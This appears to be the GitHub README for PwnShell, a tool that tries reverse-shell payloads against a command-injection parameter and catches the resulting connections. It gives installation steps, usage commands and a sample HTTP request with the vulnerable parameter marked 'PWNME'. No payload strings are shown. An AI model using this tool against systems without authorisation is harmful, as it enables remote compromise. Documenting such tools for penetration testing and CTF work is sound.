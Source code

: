 

# PwnShell

### PwnShell is a Powerfull RevShell Bruteforcer and Connection Handler built For Security Researchers and CTF Players!

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

<a href="#getting-started">Installation</a>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>
</details>

## Installation

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIE (optional)] -k [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/Vulnerable.php?cmd=PWNME --method GET --cookie '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

### For NodeJs Payloads 
```sh
./pwnshell.py -H [HOST-IP] -n   
  
#To use only -> require('child_process').exec('Payload')
```
## Preview
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)
   


## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-yahya-0985971b5/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/)

**Project Link**: [https://github.com/zAbuQasem/PwnShell](https://github.com/zAbuQasem/PwnShell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)

### TODO:
```sh
1- Add support for windows
2- Add more payloads and options
3- Add Post exploitation scripts for [linux/windows]

